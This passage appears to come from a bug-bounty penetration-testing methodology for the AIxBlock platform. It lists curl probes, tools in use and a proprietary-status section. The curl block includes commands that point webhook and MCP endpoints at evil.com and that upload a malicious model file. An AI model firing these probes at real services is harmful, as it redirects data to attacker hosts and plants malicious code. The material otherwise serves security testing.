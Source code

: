 ### **AIxBlock-Specific Vulnerability Patterns**
```bash
# Workflow execution vulnerabilities
curl -s "https://workflow.aixblock.io/api/v1/execute" -d "workflow=malicious_workflow" -v

# Model management vulnerabilities
curl -s "https://api.aixblock.io/api/v1/models/upload" -F "model=@malicious_model.py" -v

# Webhook manipulation
curl -s "https://webhook.aixblock.io/api/v1/webhooks" -d "url=https://evil.com/webhook" -v

# MCP connection vulnerabilities
curl -s "https://mcp.aixblock.io/api/v1/connect" -d "endpoint=https://evil.com/mcp" -v
```

---

## **📊 INTEGRATION STATUS**

### **✅ FULLY INTEGRATED METHODS**
- **Static Code Analysis**: Semgrep, Bandit, Retire.js, ESLint
- **Dynamic Web Testing**: Wapiti, OWASP ZAP, Nikto, Nmap
- **Secrets Detection**: TruffleHog, GitLeaks, manual review
- **Authentication Testing**: JWT, SAML, webhook testing
- **Information Disclosure**: Configuration, error, version disclosure
- **Input Validation**: SQL injection, XSS, path traversal, command injection
- **CORS & Headers**: Security headers analysis
- **API Security**: Endpoint enumeration, method testing, parameter pollution
- **Session Management**: Session fixation, hijacking, CSRF
- **Business Logic**: IDOR, privilege escalation
- **AIxBlock-Specific**: All target domains and endpoints

### **✅ INTEGRATION POINTS**
- **VULNERABILITY_REVIEW_GUIDE.md**: All methods integrated
- **SUCCESSFUL_SUBMISSION_TEMPLATE.md**: All methods included
- **PROPRIETARY_METHODOLOGY_SUMMARY.md**: Complete framework documented
- **COMPREHENSIVE_SECURITY_ANALYSIS.md**: All findings documented

---

## **🔒 PROPRIETARY STATUS**

### **Our Intellectual Property**
This comprehensive penetration testing methodology is **proprietary intellectual property** including:
- **All penetration testing methods** from aixblockpentesting.docx
- **AIxBlock-specific testing framework** tailored to their platform
- **Enhanced methodology** based on Issue #309 success
- **Rejection analysis integration** from all 11 failed submissions
- **Proven success patterns** from accepted reports
